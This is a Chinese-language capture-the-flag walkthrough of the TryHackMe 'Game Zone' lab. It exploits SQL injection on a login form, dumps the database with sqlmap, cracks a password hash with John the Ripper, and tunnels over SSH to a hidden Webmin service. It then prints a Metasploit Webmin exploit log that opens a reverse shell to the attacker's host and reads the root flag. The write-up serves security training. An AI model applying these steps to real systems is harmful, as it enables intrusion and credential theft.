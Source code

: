 # TryHackMe -- Offensive Pentesting -- Game Zone


Offensive Pentesting -- Game Zone walkthrough.

<!--more-->

# THM -- Offensive Pentesting -- Game Zone

## Deploy the vulnerable machine

### What is the name of the large cartoon avatar holding a sniper on the forum?

直接使用图片搜索：agent 47

## Obtain access via SQLi

### When you've logged in, what page do you get redirected to?

使用登录功能，先抓包看下通信数据：

![image-20240319154426077](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191544451.png)

理论上，没有防护的情况下，可以尝试一下爆破username和password参数。这里我们还要测试一下，看看有没有过滤特殊字符串，响应一样，判断不出来。那就尝试sql注入：

![image-20240319154931261](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191549294.png)

![image-20240319154943866](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191549889.png)

username处存在字符型注入，后续我们可以考虑使用这个sql注入来获取权限。





所以答案就是`portal.php`。

## Using SQLMap

上面发现了一个sql注入漏洞，那么现在就可以使用这个漏洞来往下进行了，这里使用的工具是sqlmap。

### In the users table, what is the hashed password?

burp抓包请求，拿到请求内容：

![image-20240319160716561](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191607592.png)

![image-20240319160807420](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191608452.png)

然后上sqlmap：

![image-20240319162320980](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191623006.png)

![image-20240319162520205](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191625230.png)

数据库是mysql，参数`searchitem`存在sql注入漏洞。接下来直接dump数据库的表：

![image-20240319162617990](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191626026.png)

![image-20240319162851290](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191628325.png)

答案是users表中的pwd的hash。

### What was the username associated with the hashed password?

agent47

### What was the other table name?

post

## Cracking a password with JohnTheRipper

在上面拿到了密码，下面可以尝试进行解密密码。

### What is the de-hashed password?

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat hash.txt
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2024-03-19 04:32) 5.882g/s 17347Kp/s 17347Kc/s 17347KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

### What is the user flag?

直接用户名密码ssh登录.

## Exposing services with reverse SSH tunnels

使用ssh建立反向代理隧道：

### How many TCP sockets are running?

```shell
agent47@gamezone:~$ netstat -antpul|grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

总计5个。

### What is the name of the exposed CMS?

上面的端口里，有个10000端口访问不到，怀疑是做了防火墙限制，也就是不出网。如果是这样，我们就需要使用代理把10000端口的服务反向代理出来，这里可以直接使用ssh：

![image-20240319165506045](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191655100.png)

然后在kali上直接访问kali的10000端口：

![image-20240319165543695](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191655751.png)

是一个Webmin的cms，直接用`agent47/videogamer124`登录访问，可以看到详细信息。

## Privilege Escalation with Metasploit

想办法利用Webmin进行提权即可。

首先searchsploit搜索一下：

![image-20240319171155936](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191712753.png)

直接使用msf即可:

![image-20240319171407203](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191714269.png)

![image-20240319171558152](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191715219.png)

打完直接就是root权限了，这个没有涉及到提权：

```shell
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.2.124.22:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo E6mj7UoFjqWBNVOO;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.2.124.22:4444 -> 10.10.55.169:45412) at 2024-03-19 05:24:33 -0400


Shell Banner:
E6mj7UoFjqWBNVOO
-----

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/share/webmin/file/
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```

## 总结

这个练习感觉思维比方法更重要，攻击路径是拿到第一个站点-> 漏洞利用拿到用户名和密码 -> 端口发现第二个站点 -> 反带不出网机器 -> 漏洞利用第二个站点拿管理员权限。

知识点：

- 反向代理（后续会出一个详细的关于代理的文章）
- sql注入
